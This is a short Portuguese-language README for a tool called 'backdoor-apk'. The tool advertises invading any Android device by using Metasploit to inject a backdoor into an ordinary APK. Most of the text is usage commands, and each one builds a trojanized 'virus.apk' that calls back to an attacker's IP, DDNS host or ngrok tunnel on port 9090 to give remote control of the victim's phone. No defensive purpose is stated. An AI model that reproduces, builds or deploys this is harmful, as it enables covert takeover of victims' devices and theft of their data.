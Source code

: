 # backdoor-apk
Invada qualquer Android usando um APK!

Necessário o Perl, MSF(console e venom), um APK(qualquer)..

Para ajuda

./backdoor-apk -h

IP:

./backdoor-apk -i test.apk 192.168.1.143 9090 virus.apk

Host/DDNS:

./backdoor-apk -i test.apk fuckthisn0ip.ddns.net 9090 virus.apk

Ngrok:

./backdoor-apk -n test.apk xxxx.ngok.io xxxx 9090 virus.apk

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg

